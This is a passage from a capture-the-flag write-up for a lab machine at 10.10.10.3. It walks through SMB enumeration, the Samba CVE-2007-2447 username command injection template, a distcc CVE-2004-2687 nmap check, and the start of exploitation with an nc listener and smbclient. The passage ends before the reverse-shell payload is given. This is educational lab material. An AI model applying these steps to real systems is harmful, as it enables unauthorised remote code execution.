 ```text
smbmap -H 10.10.10.3
```

* **-H**: IP of host

We get back the following result. Interesting! We have READ/WRITE access on the tmp folder.

![](https://miro.medium.com/max/736/1*0rkC0bR4rxpvEFHd4vokow.png)

Let’s go back to our google friend to see if this version of Samba is vulnerable. It seems to have had its fair share of [vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-41384/Samba-Samba-3.0.20.html). We’re looking for a code execution vulnerability that would ideally give us Admin access. After going through all the code execution vulnerabilities, the simplest one that won’t require me to use Metasploit is [CVE-2007–2447](https://www.cvedetails.com/cve/CVE-2007-2447/).

The issue seems to be with the username field. If we send shell metacharacters into the username we exploit a vulnerability which allows us to execute arbitrary commands. Although the [exploit](https://www.exploit-db.com/exploits/16320) available on exploitdb uses Metasploit, reading through the code tells us that all the script is doing is running the following command, where “payload.encoded” would be a reverse shell sent back to our attack machine.

```text
"/=`nohup " + payload.encoded + "`"
```

Before we exploit this, let’s look at our last point of entry.

**Port 3632** **distcc v1**

Googling “distcc v1” reveals that this service is vulnerable to a remote code execution and there’s an nmap script that can verify that.

```text
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

The result shows us that it’s vulnerable!

![](https://miro.medium.com/max/725/1*kPeaLZx-dDl2QuHjHg2GtA.png)

So we have two potential ways to exploit this machine.

## Exploitation \#1: Samba <a id="fcd7"></a>

Add a listener on attack machine.

```text
nc -nlvp 4444
```

Log into the smb client.

```text
smbclient //10.10.10.3/tmp
```

As mentioned in the previous section, we’ll send shell metacharacters into the username with a reverse shell payload.
